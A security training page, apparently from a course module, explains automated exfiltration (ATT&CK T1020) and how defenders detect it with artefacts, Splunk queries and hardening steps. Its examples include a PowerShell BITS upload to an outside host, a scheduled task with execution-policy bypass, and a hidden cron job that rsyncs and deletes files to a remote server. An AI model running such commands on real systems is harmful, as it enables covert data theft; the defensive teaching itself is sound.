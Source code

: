 ```yaml
---
layout: post
title: "8.5 Automated Exfiltration"
date: 2025-06-27
permalink: /modules/8/automated-exfiltration/
excerpt: >
  Script‑driven SFTP, rsync, and BITS jobs siphon data on a schedule—often in
  small, stealthy chunks. Track tasks, cron entries, and transfer logs to map
  activity to ATT&CK Automated Exfiltration (T1020).
header:
  overlay_image: /assets/images/automated-exfil-banner.png
  overlay_color: "#2b2b2b"
  overlay_filter: "0.4"
---
```


> “Humans are slow; cron is relentless. Spot the clockwork leaks before the day’s
> backups are gone.”  
> — Egress Monitoring Architect

## 1 • Technique Summary (T1020 – Automated Exfiltration)

| Scheduler / Mechanism         | OS / Tooling                | Common Payload Route           |
|-------------------------------|-----------------------------|--------------------------------|
| **Windows Task Scheduler**    | `schtasks.exe`, XML tasks   | BITS Uploads, `curl` POST      |
| **BITS Jobs**                 | `bitsadmin`, PowerShell BITS| HTTPS/S3 or WebDAV             |
| **Cron / systemd timer**      | `/etc/cron*`, `systemctl`   | `rsync`, `scp`, `curl`         |
| **CI/CD Runner Abuse**        | GitHub Actions, GitLab CI   | Encode & commit artefacts      |

---

## 2 • Windows Workflow Example

### 2.1 Create BITS Task via PowerShell
```powershell
Start-BitsTransfer -Source "https://corp‑cdn.com/data.enc" `
                   -Destination "C:\ProgramData\sync\data.enc" -TransferType Upload `
                   -DisplayName "TelemetrySync"
```

### 2.2 Schedule Daily Upload
```powershell
schtasks /Create /SC DAILY /TN "TelemetrySync" /TR `
"powershell.exe -ExecutionPolicy Bypass -File C:\Scripts\bitsupload.ps1" /ST 23:15
```
*Artefacts:*  
- Task XML in `C:\Windows\System32\Tasks\TelemetrySync`  
- BITS Event 59 + 60 in **Microsoft‑Windows‑BITS/Operational**

---

## 3 • Linux Cron & rsync

```bash
echo "*/15 * * * * rsync -a --remove-source-files /var/tmp/outbound rsync://10.0.50.5:873/archive" \
  >> /etc/cron.d/.db_backup
```
*Logs:* `/var/log/cron`, rsync daemon `rsyncd.log`, Zeek `ftp.log` (TCP 873).

---

## 4 • Artefact & Log Matrix

| Artefact / Event                         | Source                                   | Technique |
|------------------------------------------|------------------------------------------|-----------|
| Task XML with outbound URL               | `%windir%\System32\Tasks\*`              | T1020     |
| Event 59/60 (“Job Upload Complete”)      | BITS Operational log                     | T1020     |
| `/etc/cron*` entry with `scp|rsync`      | Linux audit or FIM                       | T1020     |
| Repetitive small uploads (1–2 MB)        | Proxy / Zeek `http.log`                  | T1020     |
| GitHub Actions run with base64 artefact  | GH Audit Log / API                       | T1020     |

---

## 5 • Timeline Snapshot

| Time UTC        | Technique | Host   | Detail                              |
|-----------------|-----------|--------|-------------------------------------|
| 22 : 15 : 00    | T1020     | WS‑08  | Scheduled task `TelemetrySync` ran  |
| 22 : 15 : 02    | T1020     | BITS   | Event 59—7 MB upload to CDN URL     |
| 22 : 30 : 15    | T1020     | FW     | 40 × HTTPS POSTs size < 250 kB       |

---

## 6 • Detection & Hunting

### Splunk—Scheduled Uploads
```splunk
index=wineventlog (EventCode=59 OR EventCode=60) source_name="Microsoft-Windows-Bits-Client"
| stats count min(TimeCreated) AS first BY TaskName, AccountName, Computer
| where count > 20
| eval technique="T1020"
```

### Linux—Cron Rsync
```splunk
index=linux_secure "rsync" "sent" "bytes/sec" | stats sum(bytes) BY host, user
| where sum(bytes) > 10000000
| eval technique="T1020"
```

---

## 7 • Mitigation & Hardening

1. **BitsJob Notification** – enable AppLocker to restrict BITS Upload content.  
2. **Task Creation Audit** – log Event 4698 & alert on unsigned scripts.  
3. **Egress Proxy Rate‑Limit** – throttle repetitive small POST bursts by user.  
4. **Cron Integrity Monitor** – Linux FIM on `/etc/cron*`, `/var/spool/cron`.  
5. **CI/CD Secrets & Runner Scopes** – restrict artifact size and public actions.

---

<div class="post-resources container">
  <h3>Resources</h3>
  <ul>
    <li><a href="https://attack.mitre.org/techniques/T1020/" target="_blank">ATT&CK T1020 Automated Exfiltration</a></li>
    <li><a href="https://learn.microsoft.com/windows/win32/bits/bits-client-error-and-event-log-messages" target="_blank">BITS Operational Events</a></li>
    <li><a href="https://manpages.ubuntu.com/manpages/rsync.1.html" target="_blank">rsync Manual</a></li>
  </ul>
</div>

<a href="{{ site.baseurl }}/modules/8/ransomware-impact/" class="next-link">8.6 Ransomware Impact →</a>